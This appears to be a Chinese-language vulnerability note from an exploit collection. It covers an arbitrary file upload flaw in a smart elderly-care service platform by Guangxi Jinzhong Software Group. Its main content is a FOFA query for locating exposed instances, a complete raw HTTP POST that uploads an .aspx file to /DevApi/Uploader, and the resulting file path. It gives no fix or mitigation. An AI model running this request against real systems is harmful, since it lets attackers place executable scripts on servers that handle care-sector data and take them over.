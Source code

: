 # 广西金中软件集团有限公司智慧医养服务平台Uploader存在任意文件上传漏洞

# 一、漏洞简介
广西金中软件集团有限公司前身成立于1999年，隶属于广西电信下的三产公司——金中信息产业有限公司，是一家集软件开发、网站建设、网络工程、系统集成和维护服务、通信增值业务和ISP运营服务于一体的高科技IT企业。广西金中软件集团有限公司智慧医养服务平台Uploader存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 智慧医养服务平台

# 三、资产测绘
+ fofa`body="Content/css/Login/images/gtx-main-bg00004.png"`
+ 特征

![1721291803179-fa0d3eb8-c0c1-498b-929f-3a07eab9d2cc.png](./img/jyyVjV_3Jtln2pe9/1721291803179-fa0d3eb8-c0c1-498b-929f-3a07eab9d2cc-698303.png)

# 四、漏洞复现
```plain
POST /DevApi/Uploader HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------45250802924973458471174811279
```

![1721291820700-2d586dfe-9e61-4b58-94da-3f3b67d8878c.png](./img/jyyVjV_3Jtln2pe9/1721291820700-2d586dfe-9e61-4b58-94da-3f3b67d8878c-790966.png)

```plain
/Content/Upload/202407/18/1.aspx
```

![1721291836932-3446c6bb-c27e-461f-a28a-c4e56ac1aa48.png](./img/jyyVjV_3Jtln2pe9/1721291836932-3446c6bb-c27e-461f-a28a-c4e56ac1aa48-000517.png)



> 更新: 2024-10-22 09:37:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/payri8rhhk98f9mm>